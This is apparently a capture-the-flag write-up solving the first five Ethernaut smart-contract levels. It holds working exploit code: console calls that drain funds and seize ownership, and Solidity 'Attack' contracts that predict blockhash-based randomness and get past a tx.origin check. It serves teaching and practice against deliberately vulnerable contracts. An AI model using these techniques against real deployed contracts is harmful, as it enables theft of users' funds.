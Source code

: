 # Ethernaut Solutions

https://ethernaut.openzeppelin.com/

## 0. Hello Ethernaut

**Goal**: Find the flag.

The flag, "ethernaut0", is stored in the public `password` field. Calling the
`authenticate` function with "ethernaut0" solves the tutorial.

## 1. Fallback

**Goal**: Drain the contract of its funds.

The `receive` function is called as a fallback when eth is send directly to
the contract. In this case, `receive` sets `owner = msg.sender` if the sender
has a non-zero entry in the contributions mapping and sends any amount of eth
directly to the contract.

We can then do the following:

* Send 0.0001 eth via `contribute` function to register a non-zero
  contribution for the sender address (send < 0.001 eth to get past the
  require statement).

```
await contract.contribute({value: toWei("0.0001")})
```

* Trigger the receive function by sending eth directly to the contract address.

```
await sendTransaction({
  'from': player,
  'to': contract.address,
  'value': 1,
  'gas': 30000,
})
```

* We are now the owner and can call `withdraw` to drain the contract.

```
await contract.withdraw()
```

## 2. Fallout

**Goal**: Claim ownership of the contract.

The constructor is misspelled as "Fal1out" instead of "Fallout". As a result,
the "constructor" is instead interpreted as a callable public function. We
simply call the `Fal1out` function, which sets `owner = msg.sender`.

```
await contract.Fal1out()
```

## 3. Coin Flip

**Goal**: Make 10 correct consecutive guesses for the coin flip result.

There is no native RNG in Solidity, so the `CoinFlip` contract implements a
PRNG using the current block number, `block.number`, as the seed. We can write
our own contract to reveal this seed and generate the result before calling
the `flip` function.

```
pragma solidity ^0.6.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.3.0/contracts/math/SafeMath.sol";

interface CoinFlip {
  function flip(bool _guess) external returns (bool);
}

contract Attack {
  using SafeMath for uint256;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function predictAndFlip(address contractAddr) public {
    CoinFlip cf = CoinFlip(contractAddr);
    cf.flip(uint256(blockhash(block.number.sub(1))).div(FACTOR) == 1);
  }
}
```

By pre-generating the result, we can simply feed it into the `flip` function
and get the correct answer every time. We repeatedly call the `predictAndFlip`
function in our `Attack` contract until we hit the required number of correct
consecutive guesses.

## 4. Telephone

**Goal**: Claim ownership of the contract.

The `changeOwner` function checks that  `tx.orign != msg.sender`. The value of
`tx.origin` contains the address of the Externally Owned Account (EOA) that
created the initial transation. The value `msg.sender`, on the other hand,
refers to the address of the last instance from where the function was called
(which can be either a contract or an EOA).

If we call `changeOwner` directly, `tx.origin` is the same as `msg.sender`.
However, if we relay our call through a contract, `tx.origin` will be set to
the player's address and `msg.sender` will be set to the address of our custom
contract. Thus, we can bypass the check.

```
pragma solidity ^0.6.0;

interface Telephone {
  function changeOwner(address _owner) external;
}

contract Attack {
  function changeTelephoneOwner(address contractAddr, address owner) public {
    Telephone t = Telephone(contractAddr);
    t.changeOwner(owner);
  }
}
```

We can call the `changeTelephoneOwner` function in our `Attack` contract to
change the owner of the `Telephone` contract to the address of the player.

